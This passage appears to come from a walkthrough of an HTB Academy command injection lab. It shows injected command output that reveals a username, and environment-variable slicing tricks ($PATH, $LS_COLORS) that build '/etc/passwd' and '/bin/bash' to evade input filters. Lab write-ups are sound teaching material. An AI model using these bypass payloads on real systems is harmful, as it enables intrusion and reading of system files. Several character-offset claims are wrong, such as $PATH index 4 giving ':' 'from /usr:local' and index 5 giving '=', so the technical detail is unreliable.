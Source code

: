 ### Expected Output Analysis

**Command Execution:**
```bash
# ls /home equivalent
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms

htb-student
```

**Alternative Possible Usernames:**
- `htb-student`
- `ubuntu`
- `user`
- `kali`
- `pentester`

**Answer:** Based on typical HTB Academy naming: `htb-student`

---

## Advanced Character Generation

### Comprehensive Character Mapping

**Environment Variable Character Sources:**
```bash
# Slash (/)
${PATH:0:1}        → /
${HOME:0:1}        → /
${PWD:0:1}         → /

# Colon (:)
${PATH:4:1}        → : (from /usr:local)
${LS_COLORS:2:1}   → : (from rs=0:di)

# Equals (=)
${LS_COLORS:1:1}   → = (from rs=0)
${PATH:5:1}        → = (varies by PATH)

# Dash (-)
${LS_COLORS:7:1}   → - (from di=01-34)
${BASH_VERSION:4:1} → - (from 5.1-6)
```

### Multi-Character Generation

**Building Complex Strings:**
```bash
# Combining multiple extractions
${PATH:0:1}etc${PATH:0:1}passwd    # → /etc/passwd
${PATH:0:1}bin${PATH:0:1}bash      # → /bin/bash
${PATH:0:1}tmp${PATH:0:1}test      # → /tmp/test
```
